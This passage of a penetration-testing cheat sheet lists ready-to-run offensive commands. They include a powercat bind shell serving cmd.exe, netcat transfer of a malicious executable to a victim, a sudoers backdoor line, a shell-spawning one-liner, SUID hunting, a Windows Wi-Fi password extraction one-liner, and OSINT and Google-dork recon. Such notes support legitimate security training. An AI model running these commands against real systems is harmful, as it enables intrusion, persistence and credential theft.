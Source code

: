 **# PCat bind shell**

    PS victim: powercat -l -p 443 -e cmd.exe
    kali: nc 192.168.0.5 443


**# Wireshark**

    net 192.168.0.1/24 => capture traffic on the 192.168.0.1/24 address range:
    tcp.port == 21 => filter tcp on port 21

**# TCPdump**

    kali: sudo tcpdump -r packet_capture.pcap
    kali: sudo tcpdump -n -r packet_capture.pcap | awk -F" " '{print $3}' | sort | uniq -c | head #filter traffic skip DNS,head to view first 10 lines
    sudo tcpdump -n src host 172.16.40.10 -r packet_capture.pcap

# 5. Useful command
[bash live host scanner](https://github.com/faisalfs10x/live_host_port_scanner)

	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin	#access to more binaries
	python3 -m http.server 9000							#python3 simple server
	python -c 'import pty; pty.spawn("/bin/sh")'					#spawning shell
	echo "imroot ALL=(ALL:ALL) ALL" >> /etc/sudoers					#add user to sudoers
	[victim: nc -lvpn 4444 > receivevil.exe
    [kali: nc -nv 192.168.0.5 4444 < /root/Desktop/sendevil.exe
	netstat -anlp
	find / -perm -u=s -type f 2>/dev/null						#SUID misconfig
	dpkg -l										#install software
	ps aux										#check programs run as root such as mysql, webserver
	nmap -p- -sV -oX a.xml 10.10.10.168; searchsploit --nmap a.xml			#searchsploit to detect vulnerable services
	cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on	#oneliner extract all wifi passwd

# 6. Passive Info Gathering

**# [OSINT Framework](https://osintframework.com/) - listing of osint tool**

**# Website recon - find email,location,socmed, phone no, staffname first_initial+last_name, address**

    kali: whois target.com/targetIP
    kali: whois target.com | egrep -w 'Name Server|Registrant Name|Admin Name|Tech Name'

**# Google Hacking - refer ghdb**

    site:megacorpone.com filetype:pdf intitle: "index of" "parent directory"

**# Netcraft - look for subdomain,technology used such as firewall,IDS, server type**

    https://searchdns.netcraft.com :site contains : *.megacorpone.com
    https://sitereport.netcraft.com/?url=www.megacorpone.com
